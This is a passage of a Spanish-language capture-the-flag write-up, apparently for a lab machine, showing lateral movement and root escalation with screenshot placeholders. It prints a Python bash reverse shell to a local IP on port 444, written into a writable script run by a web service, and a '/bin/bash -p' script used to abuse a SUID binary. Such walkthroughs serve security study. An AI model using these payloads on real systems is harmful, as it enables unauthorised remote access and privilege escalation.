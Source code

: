 Si ejecutamos el binario podemos ver que el usuario le está ejecutando el archivo php-we-start.sh:
![[Pasted image 20240819235131.png]]

Podemos ver que se trate de lo siguiente:
![[Pasted image 20240819235628.png]]

Por lo tanto, hay un servidor HTTP por el puerto 8081 ejecutado por "le" con los archivos de /opt/casino-royale por lo que listamos su contenido:
![[Pasted image 20240820000000.png]]

Si miramos que contiene el archivo collect.php podemos ver que ejecuta el archivo de python el cual tenemos capacidad de escritura:
![[Pasted image 20240820000033.png]]

Así que añadimos el siguiente código:
```python
#!/usr/bin/python
import os

os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.21/444 0>&1'")
```

Por lo que si hacemos un curl y nos ponemos en escucha con nc obtenemos acceso a la máquina como le:
![[Pasted image 20240820000537.png]]
![[Pasted image 20240820000551.png]]

> [!NOTE] Se hace el tratamiento de la tty como antes.

Y visualizamos la flag:
![[Pasted image 20240820001324.png]]
### Escalada a root
Si nos fijamos en el archivo SUID de antes, y listamos los caracteres leíbles podemos ver como este binario ejecuta el run.sh:
![[Pasted image 20240820003858.png]]

Pero el run.sh el propietario es "le" por lo que podemos modificarlo y escalar privilegios a root poniendo este contenido y ejecutando el binario suid:
```bash
#!/bin/bash

/bin/bash -p
```
![[Pasted image 20240820004015.png]]

Finalmente si accedemos a `/root/flag` y ejecutamos `./flag.sh` podemos visualizar la flag en el puerto 8082:
![[Pasted image 20240820004221.png]]

